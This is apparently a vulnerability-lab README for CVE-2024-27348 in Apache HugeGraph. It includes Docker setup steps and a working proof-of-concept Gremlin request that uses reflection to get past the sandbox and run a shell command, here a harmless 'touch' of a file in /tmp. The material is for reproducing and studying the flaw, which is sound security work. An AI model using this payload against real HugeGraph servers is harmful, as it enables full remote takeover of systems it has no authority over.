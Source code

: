 # Apache HugeGraph Remote Command Execution Vulnerability (CVE-2024-27348)

HugeGraph is a user-friendly, efficient, and universal graph database that implements the Apache TinkerPop3 framework and is compatible with the Gremlin query language.
In versions prior to Apache HugeGraph 1.3.0, there is a remote code execution (RCE) vulnerability. Attackers can bypass sandbox restrictions through Gremlin and execute any command to gain full control of the server.

Reference:

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## Start Vulnerability Environment

Execute the following command to start the vulnerability environment:

```
docker compose up -d
```

After startup, you can see the web page by accessing ```http://your-ip:8088/```.

## Vulnerability Reproduction

Intercept the request through Burp Suite and exec the following PoC:

```
POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```

![alt text](image.png)

Enter the container with ```docker compose exec hugegraph bash```, you can see that ```/tmp/tonghuaroot``` has been successfully created:

![alt text](image-1.png)
